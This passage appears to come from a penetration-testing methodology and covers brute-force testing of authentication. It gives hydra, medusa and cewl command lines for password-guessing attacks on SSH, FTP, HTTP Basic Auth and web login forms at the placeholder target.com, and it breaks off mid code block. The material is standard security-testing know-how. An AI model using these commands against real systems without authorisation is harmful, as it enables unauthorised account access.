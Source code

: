 
### **Phase 3: Authentication & Parameter Brute-Force Testing**

This phase involves testing discovered authentication mechanisms and parameters for weak credentials and exploitable values.

#### 13. AUTHENTICATION BRUTE-FORCE TESTING

*   **Technique Type:** Active Authentication Testing
*   **Description:** Systematically test login forms, SSH services, and authentication endpoints with common credentials and password lists to identify weak authentication mechanisms.
*   **Tools:** hydra, medusa, patator, crackmapexec
*   **The Commands:**
    ```bash
    # SSH brute-force attack
    hydra -l admin -P /usr/share/wordlists/rockyou.txt ssh://target.com

    # Web form brute-force (login page)
    hydra -l admin -P /usr/share/wordlists/common-passwords.txt target.com http-post-form "/login.php:username=^USER^&password=^PASS^:Invalid credentials"

    # HTTP Basic Auth brute-force
    hydra -l admin -P /usr/share/wordlists/common-passwords.txt target.com http-get /admin/

    # Multiple usernames with password list
    hydra -L /usr/share/wordlists/common-usernames.txt -P /usr/share/wordlists/rockyou.txt ssh://target.com

    # Alternative tool: medusa
    medusa -h target.com -u admin -P /usr/share/wordlists/common-passwords.txt -M ssh

    # FTP brute-force
    hydra -l ftp -P /usr/share/wordlists/common-passwords.txt ftp://target.com
    ```
*   **Advanced Techniques:**
    ```bash
    # Custom wordlist generation
    cewl -d 2 -m 5 https://target.com > custom-wordlist.txt

    # Brute-force with custom user agents and delays
    hydra -l admin -P passwords.txt -t 4 -w 30 -f target.com http-post-form "/login:user=^USER^&pass=^PASS^:Invalid"

